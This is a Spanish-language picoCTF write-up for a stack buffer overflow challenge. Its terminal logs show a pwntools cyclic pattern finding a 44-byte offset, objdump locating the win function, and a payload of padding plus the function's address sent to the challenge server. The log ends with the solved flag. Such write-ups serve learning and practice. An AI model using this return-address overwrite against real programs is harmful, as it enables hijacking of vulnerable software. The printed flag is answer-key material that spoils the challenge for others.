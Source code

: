 ## Descripción
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/252/vuln). You can view source [here](https://artifacts.picoctf.net/c/252/vuln.c). And connect with it using nc saturn.picoctf.net 52339

## Solución
- Utilicé la erramienta pwn para verificar cuantos caracteres eran necesarios para pasar causar un overflow al buffer.

```
┌──(kali㉿kali)-[~/Downloads]

└─$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | ./vuln

Please enter your string:

Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

zsh: done                echo  |

zsh: segmentation fault  ./vuln

┌──(kali㉿kali)-[~/Downloads]

└─$ objdump -D vuln -M intel | grep 'win'

080491f6 <win>:

 804922c:       75 2a                   jne    8049258 <win+0x62>

┌──(kali㉿kali)-[~/Downloads]

└─$ echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x91\x04\x08' | ./vuln

Please enter your string:

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

picoCTF{flag}

zsh: done                echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x91\x04\x08' |

zsh: segmentation fault  ./vuln

┌──(kali㉿kali)-[~/Downloads]

└─$ cat flag.txt

picoCTF{flag}

┌──(kali㉿kali)-[~/Downloads]

└─$ nc saturn.picoctf.net 52339        

Please enter your string:

echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x91\x04\x08' | ./vuln

Okay, time to return... Fingers Crossed... Jumping to 0x61616161

┌──(kali㉿kali)-[~/Downloads]

└─$ nc saturn.picoctf.net 5233

^Z

zsh: suspended  nc saturn.picoctf.net 5233

┌──(kali㉿kali)-[~/Downloads]

└─$ echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x91\x04\x08' | nc saturn.picoctf.net 52339

  

Please enter your string:

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

picoCTF{addr3ss3s_ar3_3asy_c76b273b}
```

```
  

┌──(kali㉿kali)-[~]

└─$ python3                

Python 3.10.7 (main, Sep  8 2022, 14:34:29) [GCC 12.2.0] on linux

Type "help", "copyright", "credits" or "license" for more information.

>>> from pwn import *

[*] Checking for new versions of pwntools

    To disable this functionality, set the contents of /home/kali/.cache/.pwntools-cache-3.10/update to 'never' (old way).

    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):

        [update]

        interval=never

[*] You have the latest version of Pwntools (4.8.0)

>>> cyclic(100)

b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

>>> cyclic_find(0x6161616c)

44

>>> p32(080491f6)

File "<stdin>", line 1

    p32(080491f6)

        ^

SyntaxError: leading zeros in decimal integer literals are not permitted; use an 0o prefix for octal integers

>>> p32(0x080491f6)

b'\xf6\x91\x04\x08'

>>> 'a'*44

'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'

>>>
```

picoCTF{addr3ss3s_ar3_3asy_c76b273b}